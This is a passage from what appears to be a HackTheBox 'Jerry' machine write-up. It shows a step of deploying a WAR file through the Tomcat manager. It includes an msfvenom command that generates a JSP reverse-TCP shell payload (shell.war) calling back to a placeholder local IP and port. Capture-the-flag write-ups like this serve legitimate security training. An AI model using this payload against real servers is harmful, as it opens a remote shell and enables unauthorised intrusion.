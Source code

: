 <img src="https://github.com/laiyutong/HackTheBox/blob/main/Retired/Jerry/Jerry/manager.png" alt="manager" width="60%">
Since now we are free to deploy <code>war files</code>, let’s generate a war file using <code>msfvenom</code> and save it as shell.war.<br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Retired/Jerry/Jerry/WAR.png" alt="WAR" width="60%">
FYI：How to use <a href="https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html">Msfvenom</a><br>
<code>msfvenom -p java/jsp_shell_reverse_tcp LHOST=&lt;Local IP&gt; LPORT=&lt;Local PORT&gt; -f war > /shell.war</code>